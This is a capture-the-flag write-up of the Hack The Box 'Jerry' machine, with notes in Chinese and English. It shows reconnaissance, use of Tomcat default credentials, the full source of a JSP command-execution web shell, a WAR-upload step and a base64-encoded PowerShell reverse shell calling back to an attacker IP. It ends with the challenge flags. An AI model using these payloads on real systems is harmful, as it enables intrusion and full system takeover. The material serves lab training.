



**Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat is often found exposed and configured with common or weak credentials.**

```console
尽管 Jerry 是 Hack The Box 上最简单的机器之一
这是现实的，因为 Apache Tomcat 经常被发现暴露并使用通用或弱凭据进行配置
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```console
nmap -sC -sV -Pn 10.129.207.186 -vv > nmap_tcp_scan.conf

PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
```

### <span style="color:lightgreen">Website</span>

```
http://10.129.207.186:8080/manager/status

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above. 

报错文件泄露了密码

tomcat:s3cret
尝试登录
```




## <span style="color:lightblue">Exploiting Tomcat</span>
### <span style="color:lightgreen">Tomcat Manager - WAR File Upload</span>

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

zip -r backup.war cmd.jsp 
```

```
http://10.129.207.186:8080/backup/cmd.jsp?cmd=whoami
```



```
制作war包
并上传获取webshell
```

## <span style="color:lightblue">Flags</span>

```
为了方便交互
反弹shell
```

```
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA2ACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

```bash
nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: bind to :::443: Permission denied. QUITTING.
┌─[sg-dedivip-1]─[10.10.14.16]─[qax@htb-ymcg9y7e6t]─[~]
└──╼ [★]$ sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.207.186.
Ncat: Connection from 10.129.207.186:49192.

PS C:\apache-tomcat-7.0.88> whoami
nt authority\system
```

```
PS C:\users\Administrator\desktop\flags> type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

